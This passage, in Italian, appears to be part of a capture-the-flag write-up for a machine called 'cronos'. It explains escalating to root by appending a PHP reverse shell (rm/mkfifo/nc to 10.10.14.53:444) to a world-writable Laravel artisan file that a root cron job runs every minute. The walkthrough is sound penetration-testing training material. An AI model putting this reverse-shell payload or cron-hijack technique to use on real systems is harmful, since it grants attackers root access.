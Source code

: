 la cosa interessante che vediamo che "php /var/www/laravel/artisan" 
viene eseguito ogni minuto con i privilegi di root
vedi dettgli per crontab:
https://tigr.net/3203/2014/09/13/getting-wordpress-cron-work-in-multisite-environment/

Se avvessimo i permessi di scrittura protemmo  modificare il contenuto del file artisan 
per inserire una il codice di una shell che punti alla nostra macchina di attacco, 
il codice verrà eseguito con i privilegi di root e ci avremmo cosi una shell privilegiata.

Verifichiamo che permessi abbiamo
https://www.andreaminini.com/linux/permessi-dei-file-su-linux 

```bash
www-data@cronos:/var/www/laravel$ ls -l
total 1988
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 May 10  2022 app
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
```
Perfetto abbiamo i permessi di scrittura, quindi non ci resta che modificare il file 

```bash
www-data@cronos:/var/www/laravel$ cat artisan                                                                                                
#!/usr/bin/env php                                                                                                                           
<?php                                                                                                                                        
                                                 
/*                                                                                                                                           
|--------------------------------------------------------------------------                                                                  
| Register The Auto Loader                                                                                                                   
|--------------------------------------------------------------------------                                                                  
|                                                                                                                                            
| Composer provides a convenient, automatically generated class loader                                                                       
| for our application. We just need to utilize it! We'll require it                                                                          
| into the script here so that we do not have to worry about the                                                                             
| loading of any our classes "manually". Feels great to relax.                                                                               
|                                                                                                                                            
*/                                                                

#Con nano aggiungiamo una shell php che è la seguente :
system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 444 >/tmp/f"); ?> 
```
